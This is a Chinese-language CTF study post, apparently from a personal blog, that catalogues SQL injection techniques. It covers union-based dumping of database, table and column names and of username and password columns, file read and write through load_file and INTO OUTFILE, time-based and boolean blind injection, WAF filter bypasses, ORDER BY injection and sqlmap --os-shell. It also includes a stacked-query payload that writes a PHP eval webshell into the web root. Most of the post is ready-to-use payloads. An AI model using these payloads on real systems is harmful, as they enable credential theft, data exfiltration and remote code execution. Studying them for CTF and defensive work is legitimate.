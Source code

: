 ```yaml
---
layout: post
title: "SQL注入"
date: 2018-12-12 11:13:43 +0800
description: ""
category: ctf/web
tags: []
---
```


## 原理

在各种形式的用户输入（包括Web表单、cookies、Http头、输入参数等）中插入SQL代码，当后台服务器没有严格验证时，会将其直接解析执行。

```php
where id = $input #数字型，令$input = 1 union select 1,2,3
where user = '$input' #字符型，令$input = admin' union select 1,2,3
where user like '%$input%' #搜索型，令$input = admin%' union select 1,2,3
```

当需要用到编码的时候，**SQL语句识别hex编码，PHP解析器识别url编码**。

#### SQL比较方式

- 数字与字符串比较：取字符串每一位，如果是字符，认为是0，如果是数字，用数字。如：'41abcd' > 40 true; 'a4bcd'=0 true
- 字符串与字符串比较：从两个字符串不同处开始分别以ascii码比较。如：a<b, abcd > abca，与strcmp类似

#### 终止符号

- SQLServer/Oracle：`-- 单行注释 /* */ 多行注释`
- MySQL：`-- 单行注释 #(%23) 单行注释 /* */ 多行注释 /*! MYSQL专属 */`

## 带回显注入

猜字段数：`1' order by n%23`（n从1开始试，表示按第几个字段排序，报错表示没有那个字段）

#### 爆破MySQL

原理：MySQL所有数据库/表/列信息保存在information_schema.schemata/tables/columns，通过union select爆破需要的信息。

利用MySQL函数获取敏感信息

- database() -- 查当前库
- version() -- 查MySQL版本
- current_user() -- 当前用户
- @@version_compile_os -- 当前操作系统
- @@basedir -- Mysql安装路径,用于udf提权

###### 数据库用户为root（不常见）

寻找网站路径

- 报错显示(需要打开Apache的display_errors设置)
- 搜索引擎（site:target.com warning）
- 遗留文件（inurl:phpinfo.php）
- 漏洞报错（搜索：phpcms 爆路径，利用漏洞）
- 读取配置文件（apache/conf/httpd.conf 或vhosts.conf ），详见：[常见的load_file()读取的敏感信息](http://www.cnblogs.com/Loong716/p/9891152.html)
- 社工+爆破

进行文件读写

```sql
union select 'aaaa',2,3 into outfile 'd:/test.php'
union select load_file('d:/test.php'),2,3
```

注意：

1. Windows下文件分隔符只能采用`/或\\`，采用`\`会报错
2. 可以采用hex或者url编码，如果采用编码就不需要加单引号，如：`load_file(0x643a2f616161)`

###### 数据库用户非root

1. 爆库名：`union select 1,group_concat(schema_name) from information_schema.schemata`（对应sqlmap --dbs）
2. 爆表名：`group_concat(table_name) from information_schema.tables where table_schema=database() #table_schema=0x64767761 (schema字符串需要用单引号，否则转为hex方式)`（对应sqlmap -D schema --tables）
3. 爆列名：`group_concat(column_name) from information_schema.columns where table_name=0x7573657273 (table name转hex)`（对应sqlmap -D schema -T table --columns）
4. 查数据：`group_concat(username,0x3b,password,0x3b) from users`（对应sqlmap -D schema -T table -C table.column --dump）

[sqlmap](http://sqlmap.org/)命令：`sqlmap -u "url" --cookie=? --os-shell`

#### 爆破Access

原理：暴力猜解

直接通过常用名依次猜表名、列名：

```sql
union select 1,2,3 from users #猜是否存在users表
union select 1,usename,password from users #猜列名是否为username/password
and exists (select * from users)  #猜是否存在users表
and exists (select username from users) #猜列名是否为username
```

通过`len()`和`asc(mid(str, start, length))`猜数据：

```sql
and (select top 1 len(username) from users)=5 #猜长度
and (select top 1 asc(mid(username,1,1)) from users)=97 #猜第一位是否为'a'
```

[Access偏移注入](https://www.cnblogs.com/xishaonian/p/6054320.html)（知道表名，不知道列名，原理：通过select *返回所有字段，通过inner join多次返回）

```sql
UNION SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 from admin #当前表18个字段
union select 1,2,3,4,5,6,7,8,9,10,11,* from admin #加*后从后往回减少，直到正常，得知admin表为7个字段，18-7*2=4
union select 1,2,3,4,a.id,b.id,* from (admin as a inner join admin as b on a.id=b.id) #改变a.id,b.id,*的顺序可以改变返回字段的顺序
```

## 无回显注入

原理：`sleep(if(x=y), n, 0)`如果查询结果符合，则延时n秒返回，否则即时返回。

1. 全匹配递加一得到长度：`sleep(if((select length(hex(group_concat('password'))) from table)=1), 5, 0))`
2. 通过`substring`取每一位字符，通过`ascii`转为ascii码，二分法[0,127]加快比较过程，得到每个字符，如果是中文，则还需要用hex，然后再二分法：`sleep(if(ascii(substring((select hex(group_concat('password')) from table), 0, 1)) < 63), 2, 0)`

## 常用函数

- [延时函数](https://www.cnblogs.com/c1e4r/articles/9060525.html)

`sleep()`，`BENCHMARK(100000,SHA1('true'))`，通过较大的表做笛卡尔积`select count(*) from information_schema.tables A,information_schema.tables B, information_schema.tables C `

- 条件语句

`CASE WHEN 1=1 THEN true else false ENd `，`IF(1=1, true, false)`，`IFNULL()`，`NULLIF()`

- 逐字符遍历

`mid(str,pos,len)`，`substr`，`substring`

## 绕过WAF

#### 布尔型注入常用方法（sample：ezsql，write_a_shell-安恒月赛-2018-11）

```
id = 1 limit (1/0)
id=2-if(1/0,1,2) #避免空格和加号
id=if(ascii(mid(user(), 1, 1))>97, 1, 2)
id=ascii(mid(user(), 1, 1)) #当id足够多时，直接通过id盲注，节省时间
id=if(ascii(substr((select+group_concat(schema_name)+from+information_schema.schemata),1,1))>97,1,2)
id=if(((select+schema_name+from+information_schema.schemata+limit+0,1)+regexp+'a'),2,1)
usernamedel=111' and substr((select flag from flag),1,1)=='f
```

#### 过滤引号

```sql
SELECT * FROM Users WHERE username = 0x61646D696E #hex
SELECT * FROM Users WHERE username = CHAR(97, 100, 109, 105, 110) #char()
```

#### 字符串黑名单

```sql
SELECT 'a' 'd' 'mi' 'n';
SELECT CONCAT(char(97), 'd', 'm', 'i', 'n'); #任何一个参数为null，返回null，推荐使用CONCAT_WS()
SELECT CONCAT_WS('', 'a', 'd', 'm', 'i', 'n'); #第一个参数表示用哪个字符间隔
SELECT GROUP_CONCAT('a', 'd', 'm', 'i', 'n');
```

#### 过滤空格

`%0a %a0 /**/`

#### 过滤逻辑运算符（sample：好黑的黑名单-安恒月赛-2018-11）

```sql
select database() between 'z' and 'z' #0
select database() between 'x' and 'z' #0
select database() between 'w' and 'z' #1，因此第一个字符为w
select database() between 'wz' and 'wz' #0
select database() between 'wf' and 'wz' #0
select database() between 'we' and 'wz' #1，因此第二个字符为e
```

#### [is_array foreach stristr数组各个元素过滤](https://www.cnblogs.com/ur10ser/p/7736902.html)

```
id[]=-1) union/*& id[]=*/ select 1,user(),3/*&id[]=*/from mysql.user #
id[]=-1) union/*& id[]=*/ select 1,user(),flag/*&id[]=*/from gxnnctf2017.flag
```

#### 后台PHP使用mysqli_multi_query()导致多语句执行，使用prepare/execute（sample：write_a_shell-安恒月赛-2018-11）

```mysql
set @s=select '<?php eval($_POST[x];?>' into outfile '/var/www/html/favicon/1.php';
prepare a from @s;
execute a;
```

## Order by后的注入

#### 知道一个字段名

```
?order=vote #根据vote字段排序，找出最大票数num
?order=abs(vote-(length(user())>0)*num)+asc
```

#### 不知道字段名

```
?order=rand(true)
?order=rand(false) #会返回不同的排序
?order=rand((select char(substring(table_name,1,1)) from information_schema.tables limit 1)<=128)) #类似盲注的方式逐位猜字符
```

